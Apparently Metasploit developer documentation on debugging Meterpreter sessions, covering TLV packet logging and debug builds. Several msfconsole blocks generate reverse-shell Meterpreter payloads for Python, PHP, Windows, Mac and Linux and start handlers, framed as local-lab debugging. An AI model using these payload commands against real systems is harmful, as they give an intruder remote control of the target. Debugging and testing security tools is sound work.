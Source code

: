 There are currently two main ways to debug Meterpreter sessions:

1. Log all networking requests between msfconsole and Meterpreter, i.e. TLV Packets
2. Generate a custom Meterpreter debug build with extra logging present

## Log Meterpreter TLV Packets

This can be enabled for any Meterpreter session, and does not require a debug Metasploit build:

```msf
msf6 > setg SessionTlvLogging true
SessionTlvLogging => true
```

Allowed values:

- `setg SessionTlvLogging true` - Enable network logging, defaulting to console
- `setg SessionTlvLogging false` - Disable all network logging
- `setg SessionTlvLogging console` - Log to the current msfconsole instance
- `setg SessionTlvLogging file:/tmp/session.txt` - Write the network traffic logs to an arbitrary file

Example output:

```
meterpreter > getenv USER

SEND: #<Rex::Post::Meterpreter::Packet type=Request         tlvs=[
  #<Rex::Post::Meterpreter::Tlv type=COMMAND_ID      meta=INT        value=1052 command=stdapi_sys_config_getenv>
  #<Rex::Post::Meterpreter::Tlv type=REQUEST_ID      meta=STRING     value="73717259684850511890564936718272">
  #<Rex::Post::Meterpreter::Tlv type=ENV_VARIABLE    meta=STRING     value="USER">
]>

RECV: #<Rex::Post::Meterpreter::Packet type=Response        tlvs=[
  #<Rex::Post::Meterpreter::Tlv type=UUID            meta=RAW        value="Q\xE63_onC\x9E\xD71\xDE3\xB5Q\xE24">
  #<Rex::Post::Meterpreter::Tlv type=COMMAND_ID      meta=INT        value=1052 command=stdapi_sys_config_getenv>
  #<Rex::Post::Meterpreter::Tlv type=REQUEST_ID      meta=STRING     value="73717259684850511890564936718272">
  #<Rex::Post::Meterpreter::Tlv type=RESULT          meta=INT        value=0>
  #<Rex::Post::Meterpreter::GroupTlv type=ENV_GROUP       tlvs=[
    #<Rex::Post::Meterpreter::Tlv type=ENV_VARIABLE    meta=STRING     value="USER">
    #<Rex::Post::Meterpreter::Tlv type=ENV_VALUE       meta=STRING     value="demo_user">
  ]>
]>

Environment Variables
=====================

Variable  Value
--------  -----
USER      demo_user
```

## Meterpreter debug builds

The following options can be specified when generating Meterpreter payloads:

- `MeterpreterDebugBuild` - When set to `true`, the generated Meterpreter payload will have additional logging present
- `MeterpreterDebugLogging` - Configure the logging mode. This currently only allows writing to a file on the remote host. Requires `MeterpreterDebugBuild` to be set to true. Example value: `setg MeterpreterDebugLogging rpath:/tmp/meterpreter_log.txt`
- `MeterpreterTryToFork` - When set to `true` the Meterpreter payload will try to fork from the currently running process. Setting to `false` is useful to see any `stdout` logging that occurs

The debug build will have additional log statements, which can be easily detected. These debug builds are useful for scenarios where A/V is not running, in local labs for learning purposes, or raising Metasploit issue reports etc.

### Python

```
use payload/python/meterpreter_reverse_tcp
generate -o shell.py -f raw lhost=127.0.0.1 MeterpreterDebugBuild=true MeterpreterTryToFork=false
to_handler

python3 shell.py
```

### PHP

```
use payload/php/meterpreter_reverse_http
generate -o shell.php -f raw lhost=127.0.0.1 MeterpreterDebugBuild=true
to_handler

php shell_http.php
```

### Windows

```
use windows/x64/meterpreter_reverse_tcp
generate -f exe -o shell.exe MeterpreterDebugBuild=true MeterpreterDebugLogging='rpath:C:/Windows/Temp/foo.txt'

to_handler
```

### Mac

```
use osx/x64/meterpreter_reverse_tcp
generate -f macho -o shell MeterpreterDebugbuild=true MeterpreterDebugLogging='rpath:/tmp/foo.txt'

to_handler
```

### Linux

```
use linux/x64/meterpreter_reverse_tcp
generate -f elf -o shell MeterpreterDebugbuild=true MeterpreterDebugLogging='rpath:/tmp/foo.txt'

to_handler
```

### Java

Functionality not supported
